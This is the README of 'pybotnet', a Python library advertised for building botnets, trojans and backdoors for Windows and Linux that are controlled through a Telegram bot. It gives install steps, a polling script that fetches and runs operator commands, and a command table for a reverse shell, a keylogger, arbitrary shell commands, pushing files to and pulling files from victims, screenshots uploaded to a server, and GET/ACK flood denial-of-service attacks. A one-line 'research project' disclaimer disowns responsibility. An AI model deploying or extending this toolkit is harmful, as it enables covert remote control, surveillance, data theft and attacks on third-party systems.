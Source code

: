  
 <p align="center">
  <a href='https://github.com/onionj/pybotnet' target='_blank'><img src='https://files.virgool.io/upload/users/271869/posts/wxs2bk9hkqfx/ezoxwssoikqm.jpeg' border='5' alt='trojan horse'/></a>  <h1 align="center">pybotnet</h1>
  <p align="center"> A Python Library for building <b>botnet</b> , <b>trojan</b>  or <b>backdoor</b> for windows and linux with Telegram control panel </p>

  <p align="center">
    <a href="https://github.com/onionj/pybotnet">
      <img src="https://img.shields.io/pypi/v/pybotnet?label=pybotnet" />
    </a>
    <a href="https://github.com/onionj/pybotnet/blob/master/LICENSE">
      <img src="https://img.shields.io/github/license/onionj/pybotnet" />
    </a>
    <a href="https://www.python.org/">
    	<img src="https://img.shields.io/pypi/pyversions/pybotnet" />
    </a>
  </p>
</p>
 
> Disclaimer: Please note that this is a research project. I am by no means responsible for any usage of this tool. Use it on your behalf. 


> [Persian document](https://vrgl.ir/G2i6b)  داکیومنت فارسی


### Features:
* Telegram anti-filter control panel
* reverse shell
* keylogger
* get target info 
* sleep source by Optional message
* export file to targets system
* import file from target system 
* get screenshot
* Task Scheduler
* Open Website
* Play Sound
* Denial-Of-Service Attack

for more, see commands table at the end of this page 



#### Requirements:

* Python 3.6 or higher
* Telegram account

### Usage:
```
pip install pybotnet
```

```python

from pybotnet import pybotnet
import time

# change TELEGRAM_TOKEN and  ADMIN_CHAT_ID to valid data:

# telegram api token (Get it from the telegram @botfather)
TELEGRAM_TOKEN = '1468299547:ABHs_________MzZcYxF_e00000000000'

# telegram account number ID (get it from @userinfobot)
ADMIN_CHAT_ID = '12345678910'



# * is_sheel:          if you compile code without shell: is_sheel=False
# * show_log:          just for debugging
# * send_system_data:  send system short info in every bot messages in telegram

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID,
                        show_log=True, send_system_data=True, is_shell=True)

delay = 10

while True:
    print('*-*'*15)
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

### Commmands:

> Send this COMMANDs to your api bot in telegram, using the admin account.

>  for run command on one target:  `<Target_MAC_Address> <command>`   `66619484755211 get_info` 


COMMAND | Sample | DO THIS | version | tested on |
--------|--------|---------|--------------------------|-----------|
`get_info` | `get_info` |return system info | 0.06 | windows, linux |
`do_sleep <scconds> <message (Optional)>` | `do_sleep 99999 hi, i see you!` | \<if message != none : print(message) > ; time.sleep(seccond) | 0.08 | windows, linux |
`cmd <system command>` | `cmd mkdir new_folder` `cmd cd ..`, `cmd ls` | run system command in shell or cmd (Be careful not to give endless commands like `ping google.com -t`  in windows or `ping google.com` in linux)  TODO:add timeout| 0.07 | windows, linux|
`export_file <link>` | `export_file https://github.com/onionj/pybotnet/archive/refs/heads/master.zip` | target donwload this file and save to script path | 0.14 | windows, linux|
`import_file <file_route>` |`import_file /home/onionj/folder/somting.png` | get a file from target system (limit:5GB & 20min)| 0.17.0 |  windows, linux|
`screenshot` | `screenshot` | Takes a screenshot, uploads it to the online server and return the download link | 0.18.1 |  windows, linux |
`help` | `help` | send commands help | 0.18.5 | windows, linux |
`/start` | `/start` | run `help` command !! | 0.18.7 | windows, linux |
`<MAC_Address> reverse_shell` or `reverse_shell`| `66619484755211 reverse_shell` and `exit` for exit!| start reverse shell on target system | 0.20.1 | windows, linux |
`keylogger` | `keylogger start` and `keylogger stop` to stop the keylogger | Starts a keylogger on victim's system. *keylogger can't handle persian words very correctly* | 0.21.1 | windows, linux 
`scheduler` | `scheduler start ,stop , list` | Adds a schedule | 0.25.3 | windows, linux
`playsound` | `playsound <sound-name>` | Will play a sound . Playsound can only play MP3 or WAV Files. | 0.25.3 | windows, linux
`openurl` | `openurl <url> <how-many-times>` | Will open a url n times. | 0.25.3 | windows, linux
`dos` | `dos <attack-type [GETFlood-ACKFlood]> <target-ip> <target-port> <thread-number> <payload-size>` | Will run Denial-Of-Service Attack. | 1.0.0 | windows
> If you like this repo and find it useful, please consider ★ starring it (on top right of the page) and forking it :)

> [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD)

> Sample GUI Trojan created by pybotnet: [VINET](https://github.com/onionj/vinet)


## Contributors ✨
Thanks goes to these wonderful people

<table>
<td align="center"><a href="https://github.com/onionj"><img src="https://avatars.githubusercontent.com/u/77416478?v=4" width="70px;" alt=""/><br /><sub><b>oNion</b></sub></a><br /></td>
<td align="center"><a href="https://github.com/TorhamDev"><img src="https://avatars.githubusercontent.com/u/87639984?v=4" width="70px;" alt=""/><br /><sub><b> TorhamDev</b></sub></a><br /></td>
<td align="center"><a href="https://github.com/SepehrRasouli"><img src="https://avatars.githubusercontent.com/u/81516241?v=4" width="70px;" alt=""/><br /><sub><b> SepehrRasouli</b></sub></a><br /></td>
</table>
